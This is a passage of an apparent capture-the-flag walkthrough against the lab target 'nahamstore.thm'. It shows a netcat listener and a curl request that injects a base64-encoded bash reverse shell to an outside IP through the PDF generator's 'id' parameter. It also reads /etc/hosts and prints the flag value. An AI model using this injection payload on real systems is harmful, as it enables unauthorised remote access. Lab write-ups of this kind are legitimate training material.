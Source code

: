 - Step 2: trigger to get reverse shell
	- `nc -nvlp 443`
	- `curl --cookie "session=76953d72488ff673cfdcf64de60d06b9;token=ee70cc78197876faa9f83fe2e5be3e96" -X POST -d "what=order&id=4%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA%2BJjEK%20%7C%20base64%20-d%20%7C%20bash%60" "nahamstore.thm/pdf-generator"`
- In the shell:
	- `cat /etc/hosts` (collect more inforamtion on the target)
	- `cat /flag.txt`
		- Get the flag: `{93125e2a845a38c3e1531f72c250e676}`

		![12rce2-3](imgs/12rce2-3.png)

---

## Recon (Task 3)

Update the `/etc/hosts` for the target
- In the previous section (RCE 2), we get more information about the subdomains on the target, then let's update the host file
- `sudo vi /etc/hosts`
	```
	10.10.130.105 nahamstore.thm www.nahamstore.thm marketing.nahamstore.thm shop.nahamstore.thm stock.nahamstore.thm nahamstore-2020.nahamstore.thm nahamstore-2020-dev.nahamstore.thm internal-api.nahamstore.thm
	```
